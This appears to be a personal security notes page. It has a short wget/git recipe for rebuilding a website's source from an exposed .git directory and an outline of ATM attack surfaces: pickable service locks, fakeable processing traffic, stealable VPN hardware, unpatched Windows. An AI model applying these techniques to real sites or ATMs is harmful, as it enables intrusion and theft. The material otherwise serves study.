 ```yaml
---
layout: page

title: Short Notes

category: infosec
see_my_category_in_header: true

permalink: /infosec/unstructured_notes.html

published: true
---
```


<article class="markdown-body" markdown="1">

## Content
<div class="spoiler"><div class="spoiler-title">
    <i>Table of contents</i>
</div><div class="spoiler-text" markdown="1">

* TOC
{:toc}

</div>
</div>

## Git repo disembowel

    git init
    wget http://example.com/.git/index -O .git/index
    
    git ls-files
        # Listing of git files
    
    git checkout interest-file.txt
        # error with file hash: 01d355b24a38cd5972d1317b9a2e7f6218e15231

    wget http://example.com/.git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy -O .git/objects/xx/yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy

    git checkout interest-file.txt

    # You have file

## ATM security

***ATM - Automatic Teller Machine***

ATM structure:

- service zone (**can be easily opened** (with picklocks or key (locks oftenly universal for all ATMs of one product line)))

    - computer

        <br>
        management ports:

        - usb
        - com port

        network connection to *processing server* (sometimes can be accessed from the street):

        - ethernet
        - gsm
        - etc. (rarity)

            <br>
            Connection security:

            - No VPN (**network traffic** with processing server is primitive, **can be easily faked**)
            - software VPN (**Is configuration correct? Firewall?**)
            - hardware VPN (**can be stealed** and hacker will be able to connect to VPN network on his own from anywhere)

        Network can be poorly arranged:

        - ATM can be accessible from internet
        - ATM can have access to other ATMs
        - ATMs can be managed though Active Directory by admins who can access companies active directory

        software:

        - windows (**XP**, 7, NT, OS/2) (**usually without upgrades**)
        - applications <--> XFS Manager (at first developed by microsoft, that is why - windows) <--> service providers <--> microcontrollers/hardware
        - user friendly service GUI for service worker/tester

    - microcontrollers for devices:

        - keypad
        - touch panel
        - cash dispenser
        - cash deposit unit
        - card reader
        - receipt printer

- safe with money (too firm for our attention) (4 blocks for 2000-3000 banknote each, 4-th usually contains biggest) (full ATM can contain several millions $ or &euro;)

***Somewhere there is a trick**, because: each ATM can be easily hacked in about 15 minutes, and in average it containes about a million, though hackers surelly will desire to massively attack it, though banks will desire to make ATMs safer and press upon vendors. But system still looks vulnerable.*

</article>
